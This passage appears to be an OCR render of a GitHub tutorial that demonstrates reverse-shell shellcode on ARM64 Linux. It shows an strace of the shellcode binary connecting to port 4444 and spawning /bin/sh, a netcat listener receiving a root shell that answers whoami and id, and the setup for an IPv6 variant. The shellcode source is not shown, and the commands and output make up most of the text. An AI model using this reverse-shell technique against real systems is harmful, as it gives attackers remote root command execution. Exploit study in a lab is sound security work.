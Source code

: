    Start the client as root on the target
    $ su
    passphrase
    # netstat -tlpn
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address  Foreign Address  State      PID/Program name    
    tcp        0      0 127.0.0.53:53  0.0.0.0:*        LISTEN     2132/systemd-resolv 
    tcp        0      0 0.0.0.0:22     0.0.0.0:*        LISTEN     1289/sshd           
    tcp        0      0 127.0.0.1:4444 0.0.0.0:*        LISTEN     19314/nc            
    tcp6       0      0 :::22               :::*        LISTEN     1289/sshd

    # strace -e execve,socket,connect,dup3 ./reverse-shellcode-ipv4
    execve("./reverse-shellcode-mapped-ipv4", ["./reverse-shellcode-mapped-ipv4"], 0xffffd7e8dd70 /* 20 vars */) = 0
    Shellcode Length: 128 Bytes
    socket(AF_INET, SOCK_STREAM, IPPROTO_IP) = 3
    connect(3, {sa_family=AF_INET, sin_port=htons(4444), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
    dup3(3, 2, 0)                           = 2
    dup3(3, 1, 0)                           = 1
    dup3(3, 0, 0)                           = 0
    execve("/bin/sh", NULL, NULL)           = 0
    --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=19665, si_uid=0, si_status=0, si_utime=0, si_stime=0} ---
    --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=19668, si_uid=0, si_status=0, si_utime=0, si_stime=0} ---
    +++ exited with 0 +++

Returning to the terminal where netcat was started after receiving a connection from the client execute any shell commands.  The requests for whoami, id and exit are shown below.
       
    $ nc -lvp 4444 127.0.0.1
    Listening on [127.0.0.1] (family 0, port 4444)
    Connection from localhost 46594 received!
    whoami
    root
    id
    uid=0(root) gid=0(root) groups=0(root)
    exit

Next build and download the memory mapped reverse shell code using IPv6 connections.  Open two terminals on the target.  Then execute the server using netcat to listen for a client connection.  The client is started using strace to demonstrate the system calls used in the reverse shell process.  The strace process is invoked showing the system calls used by the client.  Following this the client side will be shown. Now this will be demonstrated using an IPv6 implementation of the reverse shell.  In the first terminal start the server using IPv6.
       
    $ nc -lv -6 localhost 4444
    Listening on [localhost] (family 10, port 4444)

Next, a C program will demonstrate how the reverse shell IPv6 code client can be executed.  In another terminal use netstat to identify the active ports on the target.  Then execute the reverse shell client using strace to show system calls executed.
